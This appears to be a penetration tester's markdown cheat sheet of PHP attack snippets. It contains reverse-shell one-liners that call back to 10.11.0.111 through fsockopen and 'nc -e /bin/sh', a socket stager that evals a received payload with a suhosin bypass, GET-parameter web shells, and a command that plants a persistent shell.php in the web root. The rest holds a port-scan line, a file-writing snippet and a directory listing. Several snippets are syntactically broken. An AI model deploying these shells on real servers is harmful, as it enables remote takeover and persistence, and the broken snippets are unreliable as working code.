 #### shells

```<?php echo shell_exec("php -r '$sock=fsockopen("10.11.0.111,6969");exec("/bin/sh -i <&3 >&3 2>&3");'";?>```

```<?php echo shell_exec("sleep 1m;php -r '$sock=fsockopen('10.11.0.111',80).to_i;exec sprintf('/bin/sh -i <&%d >&%d 2>&%d',f,f,f)");?>```

```<?php echo shell_exec("echo <?php echo shell_exec($_GET['cmd']);?> >> /var/www/html/internal/shell.php");?>```

```<?php echo shell_exec("nc -e /bin/sh 127.0.0.1 6969");?>```

```/*<?php /**/ error_reporting(0); $ip = '10.11.0.111'; $port = 4650; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();```

```<?php system($_GET["cmd"]); ?>```

```<?php echo shell_exec("nc -z -v 10.11.0.111 1-443");?>```

-----


#### write file

```
<? php
$txt = "<?php echo shell_exec($_GET['cmd']);?>";
fwrite('shell.php', $txt);
fclose('shell.php');
?>
```

-----


#### scan dir

```
<?php
$filelist = array();
if ($handle = opendir(".")) {
	while ($entry = readdir($handle)) {
		if (strpos($entry, "") === 0) {
			$filelist[] = $entry;
		}
	}
	closedir($handle);
}
?>
```

-----
